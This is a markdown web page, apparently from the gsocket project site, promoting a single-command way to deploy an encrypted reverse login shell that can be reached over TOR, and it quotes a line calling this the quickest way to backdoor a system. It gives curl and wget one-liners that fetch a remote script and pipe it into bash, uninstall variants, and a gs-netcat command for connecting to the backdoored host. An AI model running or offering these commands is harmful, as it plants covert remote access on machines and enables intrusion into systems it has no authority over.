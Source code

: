 ```yaml
---
layout: default
---
```


Deploy a reverse login shell with a *single command* (fully automated) - and access the shell remotely - encrypted - and via TOR if you like. 

> _This must be the quickest way to backdoor a system_
>                                                 -- anonymous

Use either one of these two commands to _deploy_:
```shell
bash -c "$(curl -fsSL gsocket.io/x)"
```

```shell
bash -c "$(wget -qO- gsocket.io/x)"
```

Use either one of these two commands to _uninstall_:
```shell
GS_UNDO=1 bash -c "$(curl -fsSL gsocket.io/x)"
```
```shell
GS_UNDO=1 bash -c "$(wget -qO- gsocket.io/x)"
```

Access the remote host from anywhere in the world:
```shell
$ gs-netcat -s ExampleSecretChagneMe -i
```
---
This is just one example of GSOCKET. Visit the [GitHub Page](https://github.com/hackerschoice/gsocket) for more.  

---
{:refdef: style="text-align: center;"}
Screenshots
{: refdef}
Install
{:refdef: style="text-align: center;"}
![Deploy-Example](../assets/images/deploy-example.png)
{: refdef}
Login
{:refdef: style="text-align: center;"}
![Deploy-Login](../assets/images/deploy-login.png)
{: refdef}
---
Get Involved. We are looking for volunteers to work on the website and a logo and to discuss new ideas. [Join us on telegram](https://t.me/thcorg).

